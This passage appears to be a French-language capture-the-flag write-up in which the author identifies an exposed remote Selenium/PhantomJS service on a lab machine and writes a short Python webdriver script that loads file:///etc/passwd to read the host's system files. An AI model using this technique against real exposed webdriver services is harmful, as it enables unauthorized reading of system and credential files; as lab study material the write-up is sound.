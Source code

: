 Le serveur semble avoir du mal à traiter la charge face à un buster quelconque mais on trouve des URLs telles que *status*, *session*, *sessions* ou encore *shutdown* (qui semble avoir un effet assez radical sur le serveur lol).  

Ça ressemble à du *Selenium* en remote. *Selenium* est grosso-modo un wrapper permettant d'automatiser différents browsers headless et il a un mécanisme de session qui ressemble à ça.  

La requête suivante a finit de me convaincre :  

```javascript
$ curl -s http://192.168.56.116:443/sessions | python3 -m json.tool
{
    "sessionId": null,
    "status": 0,
    "value": [
        {
            "id": "9118cd60-6309-11ec-abba-1b04047d7329",
            "capabilities": {
                "browserName": "phantomjs",
                "version": "2.1.1",
                "driverName": "ghostdriver",
                "driverVersion": "1.2.0",
                "platform": "linux-unknown-64bit",
                "javascriptEnabled": true,
                "takesScreenshot": true,
                "handlesAlerts": false,
                "databaseEnabled": false,
                "locationContextEnabled": false,
                "applicationCacheEnabled": false,
                "browserConnectionEnabled": false,
                "cssSelectorsEnabled": true,
                "webStorageEnabled": false,
                "rotatable": false,
                "acceptSslCerts": false,
                "nativeEvents": true,
                "proxy": {
                    "proxyType": "direct"
                }
            }
        }
    ]
}
```

Ici le browser utilisé est *PhantomJS* qui a l'avantage n'être réellement headless (par opposition à des Chrome et Firefox qui vont nécessiter un tas de dépendances graphiques). Par contre le projet est mort depuis un moment.  

Je me souviens avoir vu des vulnérabilités le concernant à un moment donc je suis penché dessus.  

Le truc le plus bateau c'est de tester le schéma *file://* car comme dirait *Jean-Clause Dus*, *sur un malentendu ça peut marcher*.  

```python
from time import sleep

from selenium import webdriver

driver = webdriver.Remote(
    command_executor='http://192.168.56.116:443/wd/hub'
)

driver.get("file:///etc/passwd")
sleep(2)
print(driver.page_source)

driver.quit()
```